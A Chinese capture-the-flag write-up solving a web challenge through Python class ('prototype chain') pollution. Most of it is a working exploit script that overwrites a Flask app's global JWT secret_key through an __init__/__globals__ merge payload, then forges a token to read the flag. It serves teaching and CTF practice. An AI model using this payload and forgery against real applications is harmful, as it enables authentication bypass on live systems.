

# onehang的粉丝团

## 前置知识

这题考察python的原型链污染，有关python原型链污染的知识可以参考下面这篇文章

[Python原型链污染从基础到深入 - Rycarls little blog](https://rycarl.cn/index.php/2025/04/28/python原型链污染从基础到深入/)

## 思路

```python
        data = jwt.decode(token, secret_key, algorithms=['HS256'])
        
        if data['user'] == "ctfer":
            return jsonify({"flag": FLAG,"message":"恭喜你找到了r00t的传闻秘事！"}), 200  
        else:
            return jsonify({"message": "r00t的传闻秘事只有大黑客才能看！！！"}), 200
            
```

这里要求用户为ctfer才能获取flag，校验的方式是jwt，但是我们不知道密钥所以没法伪造



不难注意到存在一个危险的merge函数，很可能是原型链污染，可以污染到全局的secret_key，篡改成已知值，这样就可以伪造身份了

exp

```python
import requests
import jwt
import datetime

# 目标 URL
BASE_URL = "http://118.89.197.242:32932"
HACKED_KEY = "hacked"

def attack():
    print(f"[*] 目标: {BASE_URL}")
    payload = {
        "__init__": {
            "__globals__": {
                "secret_key": HACKED_KEY
            }
        }
    }
    
    print(f"[*] 正在发送污染 Payload: {payload}")
    try:
        # 发送 POST 请求触发 merge
        res = requests.post(BASE_URL + "/", json=payload)
        if res.status_code == 200:
            print("[+] Payload 发送成功！")
        else:
            print(f"[-] 服务器返回状态码: {res.status_code}")
    except Exception as e:
        print(f"[!] 连接服务器失败: {e}")
        return

    print(f"[*] 正在使用伪造的 Key ('{HACKED_KEY}') 生成 Token...")
    
    claims = {
        'user': "ctfer",  # 目标用户
        'exp': datetime.datetime.utcnow() + datetime.timedelta(hours=1)
    }
    
    fake_token = jwt.encode(claims, HACKED_KEY, algorithm='HS256')
    
    # 兼容 PyJWT 版本差异 (PyJWT < 2.0 返回 bytes)
    if isinstance(fake_token, bytes):
        fake_token = fake_token.decode('utf-8')
        
    print(f"[*] 伪造的 Token: {fake_token}")

    # 3. 获取 Flag
    print("[*] 尝试访问 /r00t 获取 Flag...")
    
    # 设置 Cookie
    cookies = {
        'jwt': fake_token
    }
    
    try:
        # 发送带有伪造 Cookie 的请求
        res = requests.get(BASE_URL + "/r00t", cookies=cookies)
        
        print("\n" + "="*30)
        print("SERVER RESPONSE:")
        print(res.text)
        print("="*30 + "\n")
        
        if "flag" in res.text:
            print("[+] 恭喜！攻击成功，Flag 已拿到！")
        else:
            print("[-] 未找到 Flag，请检查污染是否成功。")
            
    except Exception as e:
        print(f"[!] 请求失败: {e}")

if __name__ == "__main__":
    attack()
```

